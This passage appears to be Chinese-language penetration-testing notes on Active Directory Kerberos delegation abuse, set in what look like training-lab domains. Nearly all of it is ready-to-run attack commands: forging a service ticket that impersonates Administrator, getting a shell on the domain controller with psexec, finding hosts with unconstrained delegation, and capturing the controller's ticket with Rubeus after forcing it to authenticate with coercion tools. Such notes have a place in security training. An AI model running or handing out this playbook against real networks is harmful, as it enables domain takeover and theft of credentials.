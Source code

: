 ```
```
- 利用impacket-getST獲取ticket
```
impacket-getST -spn cifs/resourcedc.resourced.local resourced/attack\$:'AttackerPC1!' -impersonate Administrator -dc-ip 192.168.241.175
```
- 為impacket-psexec設定變數
```
export KRB5CCNAME=./Administrator.ccache
```
- 修改`/etc/hosts`
```
sudo sh -c 'echo "192.168.160.175 resourcedc.resourced.local" >> /etc/hosts'
```
- 用Impacket-psexec打進去
```
sudo impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.241.175
```
## Unconstrained Delegation
>[!NOTE]
>只要某台電腦或服務帳號在 AD 中被設成「Trusted for delegation」，當使用者登入該主機時，KDC 會把使用者的 **TGT（Ticket Granting Ticket）** 一併交給它，這台主機可以用這個 TGT 去申請任意服務的 TGS（Service Ticket)。
```
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args monitor /targetuser:DCORP-DC$ /interval:5 /nowrap
```
### Unconstrained Delegation列舉
``` powershell
. C:\AD\Tools\PowerView.ps1
```
``` powershell
Get-DomainComputer -Unconstrained | select -ExpandProperty **name**
```
### Unconstrained Delegation利用
>[!warning]
>利用的前提是，要先有對目標主機(`et-DomainComputer -Unconstrained`出來的結果)的Local Admin

>[!WARNING]
>要在具有Unconstrained Delegation的主機跑 listener，再用工具(MS-RPRN.exe、WSPCoerce.exe、DFSCoerce-andrea.exe)觸發
- listener
```
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/Rubeus.exe -args monitor /targetuser:DCORP-DC$ /interval:5 /nowrap
```
- Tools
``` powershell
C:\AD\Tools\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```
``` powershell
C:\AD\Tools\Loader.exe -path C:\AD\tools\WSPCoerce.exe -args DCORP-DC DCORP-APPSRV
```
``` powershell
C:\AD\Tools\DFSCoerce-andrea.exe -t dcorp-dc -l dcorp-appsrv
```
